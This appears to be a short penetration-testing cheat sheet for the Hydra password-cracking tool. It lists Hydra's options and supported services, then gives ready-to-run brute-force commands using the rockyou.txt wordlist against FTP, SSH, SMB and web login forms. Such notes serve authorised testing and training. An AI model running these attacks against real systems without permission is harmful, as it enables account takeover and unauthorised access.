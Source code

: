 # Hydra



```bash
# -s PORT: if the service is on a different default port, define it here
# -v: verbose mode 
# -V: show login+pass for each attempt
# -d: debug mode

Services:
# adam6500 asterisk cisco cisco-enable cobaltstrike cvs firebird ftp[s] 
# http[s]-{head|get|post} http[s]-{get|post}-form http-proxy http-proxy-urlenum 
# icq imap[s] irc ldap2[s] ldap3[-{cram|digest}md5][s] memcached mongodb mssql 
# mysql nntp oracle-listener oracle-sid pcanywhere pcnfs pop3[s] postgres radmin2 
# rdp redis rexec rlogin rpcap rsh rtsp s7-300 sip smb smtp[s] smtp-enum snmp  
# socks5 ssh sshkey svn teamspeak telnet[s] vmauthd vnc xmpp
```

## FTP Brute Forcing

```bash
hydra -l USER -P rockyou.txt ftp://IP
hydra -l USER -P rockyou.txt IP -t 4 ftp
```

## SSH Brute Forcing

```bash
hydra -l USER -P rockyou.txt IP -t 4 ssh
```

## SMB Brute Forcing

```bash
hydra -l USER -P rockyou.txt IP smb
```

## Web Form Brute Forcing

{% code fullWidth="false" %}
```bash
hydra -l USER -P rockyou.txt $IP http-post-form "/path:param1=^USER^&$param2=^PASS^:error_message" -V
# insert all req params in http-post-form flag
```
{% endcode %}
